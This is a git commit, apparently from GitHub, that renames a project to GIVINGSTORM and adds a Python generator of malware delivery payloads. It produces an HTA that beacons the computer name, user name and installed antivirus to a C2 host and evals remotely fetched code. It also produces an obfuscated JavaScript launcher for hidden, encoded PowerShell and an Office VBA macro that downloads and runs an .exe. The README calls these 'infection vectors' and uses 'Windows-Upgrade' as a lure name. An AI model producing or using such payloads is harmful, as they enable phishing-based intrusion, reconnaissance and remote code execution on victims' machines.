

Name changed from Scriblur to GIVINGSTORM

diff --git a/givingstorm.py b/givingstorm.py
@@ -1,0 +1,221 @@
+#!/usr/bin/env python3
+
+# Default Imports
+import os, argparse
+
+
+class GIVINGSTORM:
+    def __init__(self, name, c2url, c2payload, exeurl):
+        self.name = name
+        self.c2url = c2url
+        self.c2payload = c2payload
+        self.exeurl = exeurl
+        
+    def generate_hta(self, name, c2url):
+        virtual_hta = "./Payloads/" + name + ".hta"
+        virtual_payload = name + ".txt"
+        try:
+            hta = "<html>\n"
+            hta += "<head>\n"
+            hta += "<script type=text/vbs>\n"
+            hta += "On Error Resume Next\n"
+            hta += 'strComputer = "."\n'
+            hta += r'Set oWMI = GetObject("winmgmts:{impersonationLevel=impersonate}!\\" & strComputer & "\root\SecurityCenter2")'
+            hta += "\n"
+            hta += 'Set colItems = oWMI.ExecQuery("Select * from AntiVirusProduct")\n'
+            hta += 'Set o = CreateObject("MSXML2.XMLHTTP")\n'
+            hta += 'Set s = CreateObject("WScript.Shell")\n'
+            hta += 'strInfo = s.expandenvironmentstrings("%COMPUTERNAME%")\n'
+            hta += 'strInfo = strInfo & "%20" & s.expandenvironmentstrings("%USERNAME%")\n'
+            hta += 'o.Open "GET", "'
+            hta += str(c2url)
+            hta += "/"
+            hta += 'phonehome.html?b=" & strInfo, False\n'
+            hta += "o.send\n"
+            hta += "For Each objItem In colItems\n"
+            hta += 'o.Open "GET", "'
+            hta += str(c2url)
+            hta += "/"
+            hta += 'vbtest.aspx?a=" & Replace(objItem.DisplayName, " ", "%20"), False\n'
+            hta += "o.send\n"
+            hta += "Next\n"
+            hta += 'Set scriblin = CreateObject("MSXML2.ServerXMLHTTP.6.0")\n'
+            hta += 'scriblin.Open "GET", "'
+            hta += str(c2url)
+            hta += "/"
+            hta += str(virtual_payload)
+            hta += '", False'
+            hta += "\nscriblin.send\n"
+            hta += "GIVINGSTORMt = scriblin.responsetext\n"
+            hta += "</script>\n"
+            hta += "<script type=text/javascript>eval(GIVINGSTORMt);</script>\n"
+            hta += "</head>\n"
+            hta += "<body>\n"
+            hta += "<script type=text/javascript>self.close();</script>\n"
+            hta += "</body>\n"
+            hta += "</html>\n"
+
+            hf = open(virtual_hta, "w+")
+            hf.write(hta)
+            hf.close()
+
+        except Exception as e:
+           print(f"Error encountered...\nReview the following: {str(e)}")
+
+    def generate_eval_payload(self, name, c2payload):
+        virtual_payload = "./Payloads/" + name + ".txt"
+        try:
+            payload = "var a='WSc' +"
+            payload += "'ript.Sh' +"
+            payload += "'ell';var b = 'ne' +"
+            payload += "'w Ac' + 'tiveXO' +"
+            payload += "'bjec' + 't(a).Ru' +"
+            payload += "'n(c);';var z='po' +"
+            payload += "'wers' + 'h' +"
+            payload += "'ell';var c= z +"
+            payload += "'.e' + 'xe -No' +"
+            payload += "'P -sta -N' +"
+            payload += "'onI -W Hidd' +"
+            payload += "'en -e' +"
+            payload += "'x' +"
+            payload += "'e' +"
+            payload += "'c un' +"
+            payload += "'rest' +"
+            payload += "'rict' +"
+            payload += "'ed -En' +"
+            payload += "'c ' +"
+            payload += " '"
+            payload += str(c2payload)
+            payload += "'"
+            payload += ";eval(b);"
+
+            pf = open(virtual_payload, "w+")
+            pf.write(payload)
+            pf.close()
+
+        except Exception as e:
+          print(f"Error encountered...\nReview the following: {str(e)}")
+
+    def generate_macro(self, name, exeurl):
+        virtual_executable = name + ".exe"
+        virtual_macro = "./Payloads/" + name + ".vba"
+        try:
+            macro = "Sub WriteQuiggle()\n"
+            macro += "Dim QuiggleFile As Integer\n"
+            macro += "Dim FilePath As String\n"
+            macro += "FilePath = \n"
+            macro += r'"C:\temp\quiggle.vbs"'
+            macro += "\nQuiggleFile = FreeFile\n"
+            macro += "Open FilePath For Output as TextFile\n"
+            macro += r'Print #QuiggleFile, "HTTPDownload "'
+            macro += str(exeurl)
+            macro += "/"
+            macro += r'", "C:\temp""'
+            macro += '\nPrint #QuiggleFile, "  Sub HTTPDownload( myURL, myPath )"\n'
+            macro += 'Print #QuiggleFile, "    Dim i, objFile, objFSO, objHTTP, strFile, strMsg"\n'
+            macro += 'Print #QuiggleFile, "	 Const ForReading = 1, ForWriting = 2, ForAppending = 8"\n'
+            macro += 'Print #QuiggleFile, "    Set objFSO = CreateObject( "Scripting.FileSystemObject" )"\n'
+            macro += 'Print #QuiggleFile, "    If objFSO.FolderExists( myPath ) Then"\n'
+            macro += 'Print #QuiggleFile, "      strFile = objFSO.BuildPath( myPath, Mid( myURL, InStrRev( myURL, "/" ) + 1 ) )"\n'
+            macro += r'Print #QuiggleFile, "    ElseIf objFSO.FolderExists( Left( myPath, InStrRev( myPath, "\" ) +1 ) ) Then"'
+            macro += '\nPrint #QuiggleFile, "      strFile = myPath"\n'
+            macro += 'Print #QuiggleFile, "    End If"\n'
+            macro += 'Print #QuiggleFile, "	   Set objFile = objFSO.OpenTextFile( strFile, ForWriting, True )"\n'
+            macro += 'Print #QuiggleFile, "      Set objHTTP = CreateObject( "WinHttp.WinHttpRequest.5.1" )"\n'
+            macro += 'Print #QuiggleFile, "      objHTTP.Open "GET", myURL, False"\n'
+            macro += 'Print #QuiggleFile, "      objHTTP.Send"\n'
+            macro += 'Print #QuiggleFile, "      For i = 1 to LenB( objHTTP.ResponseBody )"\n'
+            macro += 'Print #QuiggleFile, "        objFile.Write Chr(AscB( MidB( objHTTP.ResponseBody, i, 1 ) ) )"\n'
+            macro += 'Print #QuiggleFile, "    Next"\n'
+            macro += 'Print #QuiggleFile, "    objfile.Close()"\n'
+            macro += 'Print #QuiggleFile, "    Set WshShell = wscript.CreateObject("Wscript.Shell")"\n'
+            macro += 'Print #QuiggleFile, "    WshShell.Run "'
+            macro += r"c:\temp"
+            macro += chr(92)
+            macro += str(virtual_executable)
+            macro += '""\n'
+            macro += 'Print #QuiggleFile, "    End Sub"\n'
+            macro += 'Close QuiggleFile\n'
+            macro += r'Shell "wscript c:\temp\quiggle.vbs"'
+            macro += '\nEnd Sub\n'
+
+            mf = open(virtual_macro, "w+")
+            mf.write(macro)
+            mf.close()
+
+        except Exception as e:
+           print(f"Error encountered...\nReview the following: {str(e)}")
+
+    def generate_redirect(self, name, c2url):
+        virtual_redirect = "./Payloads/" + name + ".html"
+        try:
+            redirect = "<html>\n"
+            redirect += "<head>\n"
+            redirect += "<title>Redirect</title>\n"
+            redirect += '<meta http-equiv="Refresh"\n'
+            redirect += 'content="0;url='
+            redirect += str(c2url)
+            redirect += "/"
+            redirect += str(virtual_redirect)
+            redirect += '">\n'
+            redirect += "</head>\n"
+            redirect += "<body>\n"
+            redirect += r'<img src="#"/>'
+            redirect += "\n<br>\n"
+            redirect += "</body>"
+            redirect += "</html>"
+
+            rf = open(virtual_redirect, "w+")
+            rf.write(redirect)
+            rf.close()
+
+        except Exception as e:
+           print(f"Error encountered...\nReview the following: {str(e)}")
+    
+    def validate_directory(self, name):
+        try:
+            directory = "./Payloads/"
+
+            if not os.path.isdir(directory):
+                os.makedirs(directory)
+            else:
+                pass
+        except Exception as e:
+            print(f"Error encountered...\nReview the following: {str(e)}")
+
+def main():
+    parser = argparse.ArgumentParser()
+    parser.add_argument("-n", help="HTA payload with redirect", dest="name")
+    parser.add_argument("-p", help="B64 encoded payload", dest="c2payload")
+    parser.add_argument("-c", help="Client domain for whois", dest="c2url")
+    parser.add_argument("-e", help="Malicious link hosting .exe", dest="exeurl")
+
+    args = parser.parse_args()
+
+    InitGIVINGSTORM = GIVINGSTORM(args.name, args.c2url, args.c2payload, args.exeurl)
+    InitGIVINGSTORM.validate_directory(args.name)
+    print("\n----------[GIVINGSTORM]----------")
+    if not args.exeurl:
+        InitGIVINGSTORM.generate_hta(args.name, args.c2url)
+        print("\n[*] Successfully generated .hta! ")
+
+        InitGIVINGSTORM.generate_redirect(args.name, args.c2url)
+        print("\n[*] Successfully generated .html redirect! ")
+        
+        InitGIVINGSTORM.generate_eval_payload(args.name, args.c2payload)
+        print("\n[*] Successfully generated obfuscated payload file.")
+
+    else:
+        InitGIVINGSTORM.generate_macro(args.name, args.exeurl)
+        print("\n[*] Successfully generated macro payload! ")
+
+if __name__ == "__main__":
+
+
+    try:
+        main()
+    except KeyboardInterrupt:
+        print("\n \033[1;31m[!] Ctrl + C Detected, Quitting...")
+    exit(0)
+
+    

diff --git a/README.md b/README.md
@@ -1,20 +1,20 @@
-# Scriblur
+# GIVINGSTORM
 The beginnings of a C2 framework. Currently without all the C2 stuff so far. Generates
 a dual stage VBS infection vector, and a dual stage HTA infection vector. The variables take
 into account C2 addresses, Koadic/Empire payloads, and a few delivery mechanisms. The payload
 files are output to an aptly named directory "Payloads" that is created if not already present.
 
 # Installation & Usage
-Scriblur is a breeze to use. Simply clone the directory, and cd into it.
+GIVINGSTORM is a breeze to use. Simply clone the directory, and cd into it.
 
 For the HTA payload:
-  python3 scriblur.py -n Windows-Upgrade -p b64encodedpayload -c amazon.com/c2/domain
+  python3 GIVINGSTORM.py -n Windows-Upgrade -p b64encodedpayload -c amazon.com/c2/domain
 
 # HTA Example
-![alt text](https://github.com/nins3i/Scriblur/blob/master/hta.png)
+![alt text](https://github.com/nins3i/GIVINGSTORM/blob/master/hta.png)
 
 For the Macro Subroutine:
-  python3 scriblur.py -n Windows-Upgrade -e amazon.com/final/payload.exe
+  python3 GIVINGSTORM.py -n Windows-Upgrade -e amazon.com/final/payload.exe
 
 # Macro Example
-![alt text](https://github.com/nins3i/Scriblur/blob/master/macro.png)
+![alt text](https://github.com/nins3i/GIVINGSTORM/blob/master/macro.png)
